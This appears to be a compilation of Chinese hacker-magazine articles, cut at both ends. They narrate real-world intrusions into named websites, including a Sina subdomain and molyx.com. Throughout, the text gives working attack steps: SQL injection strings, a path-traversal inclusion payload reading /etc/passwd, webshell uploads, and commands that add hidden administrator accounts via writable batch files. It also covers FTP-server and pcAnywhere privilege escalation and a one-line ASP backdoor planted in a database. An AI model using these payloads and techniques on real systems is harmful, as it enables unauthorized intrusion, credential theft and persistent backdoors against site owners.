http://www.dot163.cn/1.asp/2007-4/28119427004.jpg 就是小马地址了，这个漏洞是系统漏洞，Windows 2003 Server 操作系统把 *.asp 文件夹里的所有文件都当成 asp 文件解析执行，所以我们访问的虽然是图片，但还是被当成 asp 文件解析执行。

以上是 access 数据库拿 webshell 的方法，对于 mssql 数据库，直接靠注入差异备份或者是 LOG 备份就可以轻松搞定。由于篇幅的关系，我就不详细说了，差异备份、log 备份的方法网上讲了很多。

## 三、漏洞修补方法

这个漏洞的修补方法很简单，我们只要把 js.asp 文件里的 teamid 进行类型判断就不会产生注入漏洞。把 teamid=Request("tid") 修改成 teamid=int(Request("tid")) 就可以了。如果有什么问题，请到黑客手册的论坛来找我，论坛 id 是 rabbitsafe。

（作者用的小马和构造的数据库已经收录在光盘中）

> 编辑点评：尽管这篇文章和前一篇文章有一定的重复，但是本文侧重在实际利用的角度，而上一篇是站在原理分析的角度，两者的立足点是不一样的；同时希望针对同一个问题站在两个角度的文章能带给你更多的思维火花。

# 魔力论坛本地包含漏洞分析

Flyh4t[脚本安全小组]

+ 从本文你可以学到：
1、魔力论坛本地包含漏洞分析利用
2、实例分析

外国的脚本黑客们越来越关注国内的一些程序了，上个月 phpwind 的漏洞就是外国的朋友先发现的，这个月魔力论坛 v2.5 也被 MurderSkillz 发现了一个本地包含漏洞。本地包含漏洞利用起来较不爽的是需要 gpc=off，所以危害并不是很大。但是我们在测试官方论坛（最新版本 v2.6.1）的时候成功得到了 webshell。

漏洞代码发生在 includes/functions.php 的 load_lang 函数，大约在 150 行左右。

```php
function load_lang($current_lang, $area)
{
    global $bboptions, $bbuserinfo;
    include_once(ROOT_PATH."lang/".{$bboptions['language']}."/{$area}.php");
    //$bboptions['language']默认是'en-us'，但是可以由$current_lang重新赋值的
    if ($lang) {
        $current_lang = array_merge((array)$current_lang, $lang);
        //$lang没有任何处理就传递到$current_lang了
        unset($lang);
    }
    return $current_lang;
}
```

问题很清楚了，剩下的就是如何绕过前面的 lang/ 和去掉后面的 /.{area}.php。我想大家已经很有经验了吧？提交类似 lang=../../../../../../etc/passwd%00（%00即\0，截断后面的）的语句就可以成功利用了。那么在那个页面提交这个变量呢？我们可以看一下，几乎所有文件都包含 includes/functions.php 这个文件，并且都用 function show 函数调用了 load_lang 函数，比如 index.php。

```php
class index {
    function show()
    {
        global $forums, $DB, $bbuserinfo, $bboptions, $_INPUT;
        $forums->lang = $forums->func->load_lang($forums->lang, 'index');
        //调用了有问题的函数 ^_^
        $forums->forum->forums_init();
    }
}
```

让我们到官方站点测试下，如图 1，提交 www.molyx.com/index.php?lang=../../../../../../etc/passwd%00 成功读取了密码文件，漏洞果然存在。

下面就是考虑如何得到 webshell 了，论坛提供了上传功能，我们就不用日志包含之类的方法了，直接将 php 后门改为 jpg 格式上传到论坛上，找出地址（可以用抓包的方法），如图 2。

这里我传上去的是 /data/upload_265226/2/2/5/9/0/1179509352_0.jpg，上传上去后地址如上图所示，貌似很变态滴说，faint。

提交 www.molyx.com/index.php?lang=../data/upload_265226/2/2/5/9/0/1179509352_0.jpg%00

得到了 webshell，如图 3、图 4，这个 shell 被弄得很难看，但是一样使用。

最后找个没人注意的地方留个纪念，如图 5，闪人 ing...

文章就到这里了，欢迎大家到手册论坛或者 http://forum.cnss.net/ 和我交流，最后依然感谢我姐姐侯莎同学。

> 编辑点评：好久不见本地包含漏洞了，这次魔力被老外找出来的这个漏洞也很平常嘛，为什么我们自己没有发现呢，继续加油，也希望有朋友时间去找找老外的漏子。

# 对 Sina 分站的一次渗透

x.Herman

> 栏目首语：近日有人在论坛上发帖子，说很怀念以前的 lcx，那时的 lcx 时不时地会给大家一些新东东，现在他都销声匿迹了。其实我不是不想继续给大家新的知识，只是心有余而力不足了，因为确实我的水平没有达到与网络黑客的飞速发展同步，只好转换跑道做做编辑为他人做嫁衣了，也期望能通过本栏目给大家带来一些新的知识点和迥异的思路。这篇文章看到时，估计“六一”儿童节就过了，联想到做黑客既要有一颗追求技术如儿童一样纯净的心，又要有一颗市侩一样的斤斤计较的心，在这个浮躁的时代，真是难呀……

+ 从本文中你可以学到：
- 一种提权的思路

某日在网上闲逛时无意间发现 sina 的 xx 调查投票页面 http://xxx.sina.com.cn/x/x_01.asp?num=5 存在注射点，翻出 NBSI 跑了一下，结果为 MSSQL、显错模式和 DB_OWNER 权限，不过无法列目录。NBSI 没有扫到后台地址，再试下 googlehack，用到的语句如下：

```text
inurl:login.asp site:xxx.sina.com.cn
intext:管理 site:xxx.sina.com.cn
intext:后台登录 site:xxx.sina.com.cn
intitle:管理 site:xxx.sina.com.cn
intitle:后台 site:xxx.sina.com.cn
```

郁闷了，竟然找不到后台。突然想起前些天某人给偶的 wscan（安焦有下载），于是拿出来再扫一次！居然扫出来了，后台是 xxx.sina.com.cn/cadmin/（图 1）。

这个 wscan 扫描工具的后台地址字典里，别人给我的时候已经是添加了 N 多他平时保存收集的后台地址了，这里奉劝各位平日也得养成这个习惯。

后台终于找到了，直接 'or'='or' 尝试，失败！看来还是老老实实用 NBSI 猜吧，得到 admin 账号密码，顺利进入后台（图 2）。

后台貌似比较简陋，还好有上传的地方。先随便选个 ASA 文件试试，直接就上传上去了。于是立刻拿我的 ASP 马修改成 ASA 后缀上传，顺利得到 webshell（图 3）！

凌晨一点多了，睡觉。

N 天后，跟朋友聊天说到提权。突然想起，sina 那分站我还没能提权呢，于是到处逛逛看看有没有装什么有严重漏洞的软件。没有安装 Serv-U，也没有其他软件，只装了 MSSQL，看来是没什么希望了。但是用 ASP 马查看服务组件，看来有点希望，竟然没有关掉 WScript.shell 组件。web shell 中执行 cmd

命令 netstat -an 提示文件未找到，勾上 WScript.shell 再次执行 netstat -an 提示拒绝访问。跑去 C:\Docume~1\All Users\Documents 目录下传一个 cmd.exe，再回到 cmd 执行页面勾上 WScript.shell 执行 net user 还是没反应，试着再执行 netstat -an 依然没反应（图 4）。

无奈，于是找朋友讨论一下。看看有什么思路。得出几个结论，依然没有办法，只能暂时放弃用 cmd 执行命令。无意间看到系统用户账户，发现两个管理员权限的用户，还有一个用户是 TsInternetUser（图 5）！

| 用户名 | 组 |
| --- | --- |
| ASPNET | 系统用户(组) |
| gameadmin | 系统用户(组) |
| Guest | 系统用户(组) |
| IUSR_SINA-WVEA4S6CHV | 系统用户(组) |
| IWAM_SINA-WVEA4S6CHV | 系统用户(组) |
| sinaadmin | 系统用户(组) |
| SQLDebugger | 系统用户(组) |
| TsInternetUser | 系统用户(组) |
| Administrators | 系统用户(组) |
| Backup Operators | 系统用户(组) |
| Guests | 系统用户(组) |
| Power Users | 系统用户(组) |
| Replicator | 系统用户(组) |
| Users | 系统用户(组) |
| Web Anonymous Users | 系统用户(组) |
| Web Applications | 系统用户(组) |

立刻用 asp 马带的端口扫描器扫一下，发现开了 3389！立刻连上台湾的 VPN，然后用远程桌面链接连连，看看能不能连得上，看来可以直连（图 6）。

于是偶想到碰密码，然后在 web 目录到处乱跑，到处翻文件。若干小时后，偶终于放弃了这个想法。正准备闪人的时候，突然发现一个 sina 的备份工具目录（图 7）！

发现居然还有修改权限，那就意味着，嘿嘿！点进 daylogo 目录看看，发现好多服务器日志。然后看看 log 目录，看来这里是放网站数据备份的日志文件（图 8）。

看来这是个服务器备份工具，再看看备份时间，嘿嘿，每隔

几个小时自动备份一次。看来是系统启动的，发现一个 bat 文件跟几个 vbs 文件。看着是虾米东东。发现原来是调用这 BAT 文件跟 VBS 文件来备份跟移动日志文件的！于是赶紧在 BAT 文件末

# 编辑点评：

本文原稿作者还有一段结论，就是为什么 asp 木马检测 wscript.shell 组件存在，却不能执行 cmd 命令，并不是权限的原因，是因为把 WScript.Shell 所需要调用的 wshom.ocx 反注册了（regsvr32 /u C:\WINNT\System32\wshom.ocx），所以 ASP 马能检测到组件的存在而执行命令又没有任何反应了。作者写得太啰嗦又与本文关系不大，所以我删掉了。其实这种提权限的方法，归纳起来就是一条，尽可能收集服务器的相关信息，找到可利用的地方。

添上 net user x.Herman$ root /add 和 net localgroup administrators x.Herman$ /add。

然后匆匆下线闪人，几个小时后，再次回到 webshell 来，发现用户已经添加上了。嘿嘿，登录 3389，拍照留念，闪人（图 9）！

# 利用 Gene6 FTP Server 提权

rabbitsafe

+ 从本文中你可以学到：
- Gene6 FTP Server 提权的具体利用方法。

FTP Server 是虚拟主机上必不可少的，上传下载文件全靠它，现在在网络上的主流 FTP Server 是 Serv-U，它凭借着熟悉和直观的界面，成熟的功能，占据着大半 FTP Server 的市场，很多服务器都是用 Serv-U 作为自己的 FTP Server。网上讲 Serv-U 提权的文章也有很多，方法都大同小异，我就不多讲了。

今天，我给大家带来的是另一种 FTP Server 软件——Gene6 的提权方法，原理和 Serv-U 差不多，但是有些地方，大家还是需要注意。Gene6 FTP Server 在国外虚拟主机上使用的频率非常高，主要是因为这款软件，大家还不熟悉，相对 Serv-U 来说，还是比较安全的。

## 一、起因

上个星期，朋友买了个 200M 的空间，花了 240 块钱，虚拟主机提供商说，服务器速度非常快，而且网站数量控制在 10 个以内，但是，后来我朋友的网站访问非常慢，用 domain 工具一查，上面竟然绑了 40 多个域名，还只是 .com 域名，其它类型的还不清楚。后来，我朋友要虚拟主机提供商退钱，别人说就凭那个工具，根本没有说服力，情急之下，朋友找我帮忙，希望我进入服务器抓几张图，给虚拟主机提供商点颜色看看。在朋友百般劝说下，我只好答应了，好久也没提过权了，就当熟悉下。

## 二、虚拟主机提权

朋友给了我他空间的 FTP 用户名和密码，我马上把海阳小马传了上去，大概地看了下，服务器上没有装 Serv-U，但是服务器提供 FTP Server 服务，在 c:\program files\下面发现存在一个名叫 Gene6 FTP Server 的文件夹，好像是 FTP Server 软件，如图 1 所示。

在网上一搜，果然是 FTP Server 软件，图 2 是网上对 Gene6 FTP Server 的描述。

从界面上看和 Serv-U 差不多，从官方网站下了一个，在自己电脑上安装测试下，功能果然很强大，而且界面很漂亮。这个软件和 Serv-U 的原理类似，也是在本地监听一个端口，Serv-U 默认是 43859 端口，Gene6 默认是 8021 端口。Gene6 的管理和 Serv-U 一样，也是利用控制器连接到本地的 8021 端口进行管理，不过 Gene6 对安全方面做得更好，在 Gene6 安装的时候，它就提示你修改管理密码，所以，想进入 Gene6 控制器都是要输入密码的，我在本地设置的密码比较简单是 124578，密码被加密保存在 Gene6 安装目录 RemoteAdmin 文件夹里的 Remote.ini 文件里，如图 3。

密码是 md5（32 位）加密，对于简单数字加密，可以被轻易破解，这是软件不好的地方，像这设置的密码是 124578，用户如果能看到 Remote.ini 文件里的内容，就可以直接在网上找个破解 md5 密码的网站，一秒钟就可以解出来。然后，利用和 Serv-U 类似的提权方法，就可以提升权限，如果 Gene6 运行的是 system 权限，那么就可以以 system 权限执行系统命令了。

下面是虚拟主机上的情况，虚拟主机上把 Gene6 安装在 C:\Program Files\Gene6 FTP Server\下，可以读取 Remote.ini 文件的内容，如图 4。

上面有两个系统管理员，第一个 administrator 的加密密码没有破解出来，第二个 yzdoor 的加密密码是纯数字，http://www.xmd5.com/index_cn.htm 可以轻易破解出来，竟然是 123456，我马上利用本地安装的 Gene6 远程连接上它的 Gene6，因为 Gene6 和 Serv-U 一样，都具有远程管理的功能。但是因为 Gene6 的管理端口只在本地监听，所以，想要远程连接上虚拟主机上的 Gene6，还要在虚拟主机上做一个端口映射，把本地的 8021 端口映射到另一个没被用的端口，然后，远程连接 another 端口，才能连上虚拟主机的 Gene6，进行远程管理。

把 lcx.exe 工具传到 C:\Documents and Settings\All Users\Documents 文件夹下（此文件夹在默认情况下允许读、写、执行），把 8021 端口映射到 8022 端口上，我就可以用本地的 Gene6 远程连接虚拟主机上的 Gene6 了，如图 5、图 6 所示。

先加个 ftp 用户 rabbit222，并给予此用户所有的权限，如图 7。

# 三、成功拿下虚拟主机

Gene6 想执行命令和 Serv-u 有些不一样，它要在用户属性里“site commands”里加上要执行的操作。我在网站根目录加了两个 bat 文件，内容分别是 net user rabbitsafe 123 /add、net localgroup administrators rabbitsafe /add，作用是加管理员，如图 8。

执行这两个操作的名称分别是 add1 和 add2。然后，用加的用户远程连上虚拟主机，并执行命令 add1 和 add2，如图 9、图 10 所示，命令执行成功。


然后，用 web shell 可以查看远程虚拟主机终端的端口改成了 15000，用刚才添加的用户成功连接上远程虚拟主机，如图 11 所示。


到此为止，朋友交给我的任务基本完成，在服务器给管理员留个言，希望他能说话算话，把空间的钱退给朋友。

# 四、提权总结

下面总结一下主机提权的方法，因为篇幅的关系，我也只是大概地说下，提权主要还是靠大家多多积累。现在的虚拟主机系统补丁打得很快，想通过系统漏洞提升权限是非常困难的，所以一般都是通过系统上第三方服务软件权限设置不合理来提升自己的权限。


- 1、Serv-u Ftp Server 这个 ftp server 第三方服务软件是现在虚拟主机上用得最多的，也是很多朋友提权的首选之物。

Serv-u Ftp Server 在使用默认用户名和密码的时候是最危险的，用户一般最好更改密码，改成复杂密码，这样，即使别人能拿到你的加密密码也很难破解出来。

- 2、替换服务，替换掉服务器上的杀毒软件、防火墙、流量统计等以服务启动的软件，然后等待服务器重启来运行替换成的木马，从而提升自己的权限。还可以尝试往启动项里写入木马，或者替换其它聊天、ftp 客户端等软件。
- 3、pcanywhere 这个软件是管理服务器的软件，可以想办法拿到它的 *.cif 文件，一般情况在 C:\Documents and Settings\All Users\ApplicationData\Symantec\pcAnywhere\下，这个文件是 pcanywhere 存放密码的文件，然后找个破解工具进行解密，因为它是可逆加密，所以可以用工具轻易破解。
- 4、下载系统的 sam 文件，进行密码破解，一般破解 sam 的软件有 LC、SAMinside，只要有足够的时间，完全可以破解出来。
- 5、查看服务器对脚本的支持情况，asp.net 是运行在 user 组权限上的，比 asp 的运行权限要高，其它脚本，像 .pl、.php、.cgi 等，如果支持它们的 web 服务器是在系统管理员权限上运行的话，那么脚本里执行的 cmd 命令也是以系统管理员权限执行，这就是为什么很多网上教程可以直接在 webshell 里执行管理员的命令。
- 6、通过数据库，查找系统里是否装有 mssql 或 mysql 等数据库软件，如果能找到连接它们的超级用户的密码，一样可以执行系统命令。
- 7、靠自己对服务器的了解程度，通过文件夹或程序名称来判断文件的含义和可能的作用。

去年 4 月，和朋友曾一起拿到华夏黑客联盟的 webshell，但是服务器权限设置得太变态，后来，通过对全盘文件的慢慢排查，最后在 C:\ 下发现可疑文件 iisrestart.bat，内容是 net stop iisadmin /y && net start w3svc /y && net stop mssql /y && net start mssql /y，是重启 iis 和 mssql 的命令，然后，我就加上了 net user rabbitsafe 147963 /add && net localgroup administrators rabbitsafe /add。第二天，朋友突然说，我的名字 rabbitsafe 在用户里，这才知道，华夏黑客联盟服务器做了个计划任务。因为服务器连接的用户太多，所以每晚 9:00 到 10:00 会自动重启 iis 和 mssql，这么重要的文件，没设置修改权限。最后，我和朋友成功拿到服务器的权限。

如果大家还有什么不明白的地方，请到《黑客手册》的论坛来找我，我的 id 是 rabbitsafe。

> **编辑点评：**这就是举一反三的能力了，作者从 serv-u 的提权联想到 Gene6 的提权方法。其实有了想法，就要亲自去做，再抓一下细节（像本文作者就比出了 Gene6 的执行命令不同的方式），就会找到进步的空间。

# 入侵检测贤士榜

寂寞 hacker

- 从本文中你可以学到：
- fckeditor 编辑器的漏洞利用方法

终于毕业了，想找份工作好好努力两年。我坐公交的时候，发现公车的电视屏幕上几分钟一次的广告播的就是这个贤士榜网站，它好像在云南蛮出名的，所以顺手抄下了网站地址，晚上打开这个网址想投递份简历。看了他们站还有收费的 VIP 会员，偏是穷人，所以有了下文。

看了下全站应该是 asp+Sql server 的，我就喜欢这个，因为只要有一个注入点，80% 的几率它是死翘翘的。不过显然我的运气非常的不如意！所有链接都是诸如图 1 这样的。


这样的链接，根据经验，可能没戏，果然，随便在一个地址后加上一个单引号，返回一片空白(图 2)。


不死心啊！继续 and 1=1 和 and 1=2，还是返回一样的空白页面。算了不玩酷了，扔给程序扫吧。不过偶不报多大希望，不过是习惯罢了。结果是啥都没有，看来明显的注入点是没了。为什么我说明显的注入点没了，而不是没有注入点呢？因为程序是人写的，是人写的就会有漏洞，试下搜索那吧(期待有个搜索型注入点啥的......)，可结果依然，猜下后台吧，结果还是一无所获，网站有个留言版，我倒是期待有个跨站漏洞啥的，不过因为功能太简陋。所谓的希望在这里也破灭了！服务器上所有的站像是某个公司做的，因为所有后台都用 ewebeditor 编辑器，而所有的 ewebeditor 数据库都是默认的，下载回来后得到的 MD5 密码都是一样的。虽然有后台，不过试下所有的破解网站，还有自己也开着机跑了几天，都没有破出来。可怜我的赛扬啊，如果想破这样的 MD5 我估计你跑个十年八年或者请王小云教授帮忙破解还差不多，整个服务器上十来个网站，要么进去拿不到 shell，要么连后台都进不去，搞了半夜，连个 shell 都没拿到！我开始怀疑我技术问题了，算了还是回到主站吧，随手点开了投票系统，看到如下信息如图 3。


好像我连后台都不用猜了！不过也许是投票系统的也说不定，打开 http://www.xsb-job.cn/web_admin/，如图 4 所示。

无语了，猜了半天的后台竟然在这里，不过别高兴得太早，还没有账号密码呢。试了下经典的 'or'='1'='1'，不行，看来写后台的人没那么弱智，不过马上回想起刚刚的投票链接，一般人都不会去过滤投票那儿的，上天保佑啊！果然有注入点，如图 5 所示。

接下来的事情扔给工具去做吧，最后得到如下信息如图 6。


晕，我就知道没那么简单，这种加密见过！跑去邪八问了下，未果。log 日志备份 shell 失败，所有能用的方法我都试了下，还试了下 update，看能否更改他的密码，结果好像是因为他设置了 password 字段不能为空，所以失败，不过他的加密算法我总觉得不像是 MD5 之类的不可逆加密，因为他两个用户的密码加密后位数竟然有如此大的差别，可能只是把密码转换为一种特殊格式，而位数是没变的。管他什么加密呢，那我暴力破解看看吧。我就破 gpy 这个用户吧，因为看着他好像好欺负一点。这里不浪费版面了，简单说下，偶拿溯雪几秒就出来了，密码和用户一样。偶吐血了，输入用户名密码，成功登录如图 7。


好像老天故意要和我过不去一样！好不容易找了个能上传图片的地方，提示却得到了这个信息如图 8。


因为我一点上传就出现了这个对话框，所以估计是本地验证，那就抓包改一下吧，折腾半宿结果程序把我的 asp 小马强转成了 gif，无语。难道偶真的连个 webshell 都拿不到么，不甘心啊，继续逛后台，终于发现一个好玩的东东如图 9。


我怎么看都像 fckeditor 编辑器，关于这个编辑器的漏洞，大家可以在网上搜索下。点击上图中的浏览服务器按钮，得到图 10 所示的页面。在图 10 中按下 Ctrl+N，终于如愿以偿地得到了图 10 的链接了，如图 11。


修改路径 http://www.xsb-job.cn/web_admin/gpyedit/filemanager/browserpic.asp?GpyPath=/web_admin/gpyedit/filemanager/upload/images/ 为 http://www.xsb-job.cn/web_admin/gpyedit/filemanager/browserpic.asp?

GpyPath=/web_admin/
如图 12。
能跳转路径，在这里我看到一个很有价值的东西如图 13，该文件通过 IE 打开后内容如下图 14。
那个 IP 地址是他服务器的 IP 地址！而这个 xsb 又不是他后台管理的账号，有一种可能，偶不说了！大家直接看图吧如图 15，是它的 FTP 账号！
下面的事情就简单了，传了个 asp 后门上去。服务器装了 pcanywhere，下了他服务器的 cif 文件，直接登陆。总结一下吧，通

> **编辑点评：**作者说自己懒，加“!”倒是勤奋，原稿在文章中每一句后边都加了一个!号，编辑时累死我了。整个入侵思路就像作者总结的一样，找注入点得到账号密码进入后台，利用 fckeditor 编辑器跳转目录收集信息，得到 FTP 账号，从而上传 ASP 木马。要注意的是，注入点得到的密码是未知加密格式，作者利用朔雪暴破了注入账号的密码。估计很多新入门的黑客爱好者没用过朔雪这一软件，可以自己下载试用一下，用它进行暴破网页登陆密码和论坛灌水有时候是非常不错的。

# 突破数据库防下载拿到Webshell

平安年间——记一次对动易数据库防下载的突破并通过备份数据库拿一句话后门

以前从没有想过要通过动易的数据库备份来拿 shell，近来由于很想拿下一个网站，于是研究了一下。终于找到了突破口，于是在此与大家分享。用于测试的 ASP 程序：动易 2005 免费版（下载地址：http://down.chinaz.com/s/14661.asp），测试所用数据库：某网站动易数据库。

先来说一下动易对数据库的处理：动易在数据库里增加了一个表：PE-NotDown，在这个表里写入了十六进制数据：3C25206C6F6F70203C25。有人会不明白这个数据到底是什么东西啊，看看看不懂，其实这一串数据是“`<% loop <%`”的十六进制形式。虽然在数据表中是以十六进制的形式存在，但如果将 mdb 的数据库以 asp 的形式解析的话，那就会以字符形式显示。略懂一点 asp 语法的人都知道“`<% loop <%`”是无法闭合的，而且 loop 也没有任何的 do 或是 exit do 来与之配对。我也曾试过很多次，都没有将其闭合。那么到底要怎么样才能将其闭合呢？其实说出来大家一定也觉得这不是很难的吗？呵呵。大家看下面一段代码：`<% loop <%`，将其保存为一个 asp 文件解析时会提示：没有闭合，少了(%>)，如图 1 所示：


如果我们在后面加上一个“%>”，还是会出错，那么到底要怎么样才能将这段代码的功能去掉呢，大家再看下面一段代码：`<%'/ <% loop <%:%>`，这段代码在 IIS 里运行是没有任何错误的，根据这段代码的原理，于是我们便有了突破的可能性，只要我们在数据库里的两个地方合适地插入“`<'%`”和“`:%>`”（在数据库中有时不要冒号也可以）即可将 loop 的防下载给过滤掉，相信大家看到这里也应该明白是怎么回事了。

上面讲的都是原理，我在本地对动易 2005 的数据库进行了测试，我们来看一下测试结果（本次测试没有任何针对性，只作研究之用，对此方法的公布，本人不负任何责任）。

首先安装动易，这个版本的动易基本上修补了一些漏洞，现在不谈是否有其它漏洞，只谈对数据库进行突破。我测试用到的数据库是从一个网站上下来的数据库，因为一直想入侵这个网站，只拿到了数据库，所以在研究过程中研究的就是这个数据库，文章中所测试也是这个数据库。下来之后先将数据库进行备份，以后测试都用它的一个副本进行测试，因为在改动 Access 的数据时有些东西是要注意的（后面会提到）。我们先将动易的数据的后缀名改成 ASA 的，然后在 IIS 里打开，打开结果跟上一幅图是一样的，也是出现少 %> 的错误，这便是动易的防下载处理。然后我们用 UltraEdit 打开动易的数据库，选择十六进制编辑，然后搜索 <%，我们可以定位到如下的地方，如图 2 所示。


我们可以看到显眼的一栏里“`<% loop <%`”这样的语句，证实了我们前面的说法，我们继续搜索后发现只在 loop 的前后共有两个“<%”，也就是无法闭合的一条语句。那么我们要如何突破呢？前面也讲到了，在 asp 的语法里，单引号起注释的功能，我们是不是可以在它的前面加上注释的语句呢，再在另一个地方再插入闭合语句那不是可以进行突破了？打开数据库的设计，我们先找一个地方来将它进行闭合，我们看到表 PE-NotDown 前后的表结构如图 3。


我们将它进行闭合，我们看到表 PE-NotDown 前后的表结构如图 3。

在这里，是不是可以在 PE_NotDown 的前面的一个表里加入代码将其后面的 asp 代码注释掉？进行测试吧，我选了 PE_NewKeys，打开后在里面插入了一行代码，这里我用到了 lake2 的一个 ascii2unicode 的工具将代码 `<%'x`（为什么后面有个 x，其实用其它的字符也可以，只要转换的结果不出现问号即可）转换成“十砧”（这样转换首先是在后台进行修改变得可行的，因为没有什么特殊字符，而且转换后的数据库改名为 asa 进行解析前能返回成原来的字符，如果需要知道具体情况，请去 lake2 的博客看），然后插入进去，如图 4。

保存后再我们将数据改为 asa 的后缀后打开，错误如第一幅图，少关闭符 %>，我们再用 UltraEdit 打开，搜索 <%，搜到的第一个是与第二幅图是一样的，在第 458 行那里找 loop 语句，继续向下搜两次，我们在 19118 行那里搜到了我们刚刚插入的数据库，如图 5。


我们来分析一下：<% loop <% 是 PE_NotDown 里的数据，而“十砧”是 PE_NewKeys 里的信息，虽然在表结构里 PE_NewKeys 排在 PE_NotDown 的前面，但能过 ASA 解析后“<% loop <%”却在前面显示，因此 Access 的数据改成 ASA 的解析后其数据的出现顺序是发生了变化的。那么我们要怎么样才能让其显示在前面呢？由于不知道其具体的结构顺序，我选择了穷举法。从第一个表开始，向每个字段里插入“十砧”，然后通过 UltraEdit 查看，看哪个会出现在前面，每次插入数据前都是用的原始动易数据库的一个副本，因为在 Access 里，你将某条记录删除，虽然在表结构里看不到了，但其还是存在于数据库里，用 UltraEdit 还是能看到，只有对数据库进行压缩后那些删除的记录才会真正地删掉（这里说的压缩并不是用 winrar 压缩的那一种，而是 Access 的压缩功能）。每次插完数据后再用 UltraEdit 搜索字符 <%，便于更好地搜索定位。

在一次一次的测试中，当试到 PE_channel 这个表时，问题出现转机。我们来看一下，打开数据表，定位到 PE_channel 这个表，在字段 ChannelName 里在“研究院新闻”的后面加入“十砧”，如图 6。


保存后再用 UltraEdit 打开数据，用十六进制进行编辑，搜索 <%，我们搜到的第一个结果如图 7。


此时第一个出现的 <% 就不是原来的与 loop 相连的那个了，也就是说我们现在在 loop 前面就插入了一个 asp 标记符 <%，此时我们还得在 loop 后面的一某处地方再插入 "%>" 才能让其闭合，同样采用穷举法测试后找到了另一个插入点。我们在最后一个标题后面加个“卜砾”（这是由 “%>x” 转换过来），如图 8。


保存后再用 UltraEdit 查看，搜索 "%>x"，在第 7546 行那里找到了我们刚刚插入的信息，如图 9。


我们现在来总结一下：一共插入了两次数据：第一次插入的数据“十砧”在第 189 行被解析成 asp 语句“<%'x”；第二次插入的数据“卜砾”在第 7546 行被解析成 asp 语句“%>x”。而动易原来防下载的语句“<% loop <%”是出现在第 458 行，正好处于两次插入的数据中间。此时我们将数据改名 *.asa 后在 IIS 里解析，结果如图 10。


此时有一部分数据被解析出来了，那么我们的突破就达到了效果，于是我们想到将第一次插入的数据后面再加上 execute request("#") 不是可以拿到一个后门了？于是我将字符串 `<%'x execute request("#")%>a <% 'x` 转换成 Unicode 字符“十 砧 V ㅓ 十砧”后插入到第一次插入数据的地方，如图 11。


再用 UltraEdit 查看插入的结果搜索到我们插入的数据如图 12。

我们发现刚插入的数据出现在了第 7405 行，与第一次插的第 189 行相差甚远，而且由于没有把 loop 语句包进去，数据库也无法解析了。于是我们只好退回到上一步，再找其它的地方下手。后来找了很久也没有找到，于是又回去研究能在 IIS 里显示的信息，我们看到如图 13。


大家看到这里有很多的 "jpg|jpeg" 等什么的，我们可以想到这里是保存上传类型数据的地方，我们可不可以将一句话马插到这里让它被解析呢？好了我也不再费话了，还是重新复制一个原始数据的副本，先按原来的步骤在 ChannelName 第一个标题和最后一个标题后面插入相关数据（照前面的方法进行），然后我将一句话马 `<% execute request("#")%>a` 转成 Unicode 字符“十 砧 V ㅓ”后插入到以下地方，如图 14。


用 UltraEdit 打开后在第 196 行搜索到 "execute"，如图 15。在第 189 行搜索到 "<%'x"，如图 16。在第 483 行搜索到 loop，如图 17。在第 7403 行搜到了我们的 asp 闭合语句，如图 18。

我已按先后顺序将其用图标出，一句话后门在最前面，应能执行了。我们在 IIS 里找开后得到结果如图 19（打开时间有点长，根据数据库的大小）。

我们的一句话马成功执行，这样就突破了数据库的下载功能，并能通过数据备份来获得后门。

后记：写完这篇文章之后，我用了其它动易 2005 的数据库进行了测试，按同样的方法进行插入，但没有得到想要的结果，看来这种方法是具体数据库要具体分析的，不同的数据库插入数据的地方是不同的，即使是同一数据库，只要数据发生变化了，插入的地方也是不同的，大家如果实验的话就得先按上面的方法进行插入和定位才行，切记在入侵中不可照搬，最好先将网站数据备份，如果不行还可以还原回来。有些要

- 错误类型：Microsoft VBScript 运行时错误 (0x800A000D) 类型不匹配: 'execute' /kjxy/powereasy5.asa, 第 304 行
- 浏览器类型：Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; TencentTraveler ; User-agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; http://bsalsa.com) )
- 网页：GET /kjxy/powereasy5.asa

注意的地方，如果数据过大，用 IIS 打开时 IIS 可能会挂掉，机子性能要好。这次本想将手中用于试验的数据给大家也试下，但无奈这关系到某网站的安全，所以就不提供了。

> [文章中的工具 a2u4hack.exe 和作者做的录像已收录在本期光盘中]

编辑点评：作者用穷举法找到了将一句话 asp 木马插入数据库的位置。突破<% loop <%，作者用的语句是<%' <% loop <%: %>。其实一些程序的注释符和连接符是很有作用的，在 asp 下 ' 是注释符，: 是连接符，可以将两条或多条 asp 语句放在一行里，在 VBS 下这两个符号也是通用的。

# OR，让注入更疯狂！

看了四月份《黑客手册》落叶纷飞写的《假作真时真亦假——or 注入教程》后，有一点疑惑，他提到在 or 后的条件正确时会返回错误信息，条件错误时反而正常。但是文章最后编辑点评到：当 or 前的条件为真时，or 后的条件无论真假都不会返回错误，因为 or 前后的条件只要有一个为真就行了。

那么我们应该怎么办呢？假如一个数据表中有 id 从 1~100 的数据，那么我们就构造 id=101，反正让 or 前的条件为假就行了。这样一来，如果 or 后的条件为真，就返回正常，反之则错误，和 and 注入的效果是一样的，很方便理解与判断。

我们实践证明一下吧，我随便找了个有注入漏洞的网址 http://www.hirain.com/Company/content.asp?id=133。显示正常，在后面加 or 1=2，返回正常；换成 or 1=1，还是正常。

这一点编辑已经说过了。我们试一下吧 id 改成 999，看看，错误了，哈哈。再往后面加 or 1=1，看到了吧，又正常了；用 or 1=2，就有问题了。我们输入 %20or%20exists (select * from [admin])，返回正常，说明有 admin 表。再改成 %20or%20exists (select username from [admin])，也正常，说明有 username 字段；用 %20or%20exists (select password from [admin])，出错了；再试 %20or%20exists (select pwd from [admin])，正常，说明有 pwd 表，好了，大家接下去用 ascii 折半法逐个猜出内容吧，我就不浪费篇幅了。其实这个连接并没有过滤 AND，所以用工具也能注入，这里只是给大家做演示而已。我弄到了密码，但我不出后台……

由于没有截图软件，所以没给大家留图片，大家可以实地测试一下。由于技术原因，不免有问题，请大家及时纠正。

# 渗透飞思科技——飞雨信息港整站程序漏洞利用

- 从本文你可以学到：
- 比较常见而普通的获得 WEBSHELL 的过程

飞思科技在国内是一家提供域名注册、虚拟主机、独立主机及相关程序出售等网络服务的网站，今天我做了一下测试，其中

经历了很多小困难，最后成功得到了系统权限。特此把经历过程写下来，献给比我还菜的朋友们。

在浏览主站的时候发现一个注入点，放在工具里一跑居然就可以注入，而且很快就猜出了密码和后台。本以为没什么困难呢，可是进了后台才发现许多功能用不了，更别想拿 WEBSHELL 了，也不

